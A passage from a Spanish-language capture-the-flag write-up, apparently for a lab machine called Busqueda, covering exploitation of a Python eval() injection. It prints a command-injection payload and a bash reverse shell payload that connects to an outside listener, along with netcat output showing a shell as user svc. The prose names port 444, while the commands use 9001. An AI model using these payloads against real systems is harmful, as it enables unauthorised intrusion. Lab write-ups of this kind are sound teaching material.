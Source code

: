 ![commit](commit.png)

## Explotación

---

Al parecer, anteriormente se utilizaba el método `eval()` de Python. En este [post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/), se señala que el método `eval()` de Python es vulnerable a la ejecución de código arbitrario y se proporcionan algunos ejemplos que podríamos emplear para eludir las expresiones de la consulta.

![eval](eval.png)

En nuestro caso, utilizaremos el siguiente payload.

```bash
'),__import__('os').system('id')#
```

Capturamos la solicitud con Burp Suite y la modificamos para observar su comportamiento.

En la respuesta, observamos que el comando `id` se ejecutó correctamente.

![request](request.png)

Ahora, utilizamos el siguiente payload para obtener una reverse shell.

```bash
'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.41/9001 0>&1"')#
```

![payload](payload.png)

Una vez que hemos establecido la escucha en el puerto `444`, presionamos "**Search**" y logramos obtener acceso al sistema como usuario `svc`.

```bash
❯ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.208] 47898
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
```

Para obtener una shell más interactiva, realizamos un [Tratamiento de la TTY](https://r1vs3c.github.io/posts/tratamiento-tty/).

En este punto, ya tenemos acceso a la flag de usuario.

```bash
svc@busqueda:~$ ls -al
total 44
drwxr-x--- 5 svc  svc  4096 Jun 22 02:10 .
drwxr-xr-x 3 root root 4096 Dec 22 18:56 ..
lrwxrwxrwx 1 root root    9 Feb 20 12:08 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28 11:37 .cache
-rw-rw-r-- 1 svc  svc    76 Apr  3 08:58 .gitconfig
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3 08:58 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20 14:08 .searchor-history.json -> /dev/null
drwx------ 2 svc  svc  4096 Jun 22 02:11 .ssh
-rw-r----- 1 root svc    33 Jun 22 01:43 user.txt
-rw------- 1 svc  svc   748 Jun 22 01:50 .viminfo
```